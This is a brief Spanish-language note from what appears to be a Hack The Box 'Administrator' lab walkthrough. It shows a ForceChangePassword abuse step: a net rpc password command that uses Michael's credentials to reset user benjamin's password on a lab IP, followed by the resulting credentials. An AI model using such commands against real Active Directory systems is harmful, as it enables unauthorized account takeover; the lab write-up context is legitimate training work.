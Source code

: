 #forcechangepassword

---

![[Administrator31.png]]

```shell
net rpc password "benjamin" "pawned1234" -U "administrator.htb"/"Michael"%"pawned123" -S "10.129.112.167"
```
Si ponia michael con minuscula no me agarraba
![[Administrator30.png]]
Las credenciales son benjamin:pawned1234

Y asi cambiamos la contraseña del usuario *benjamin*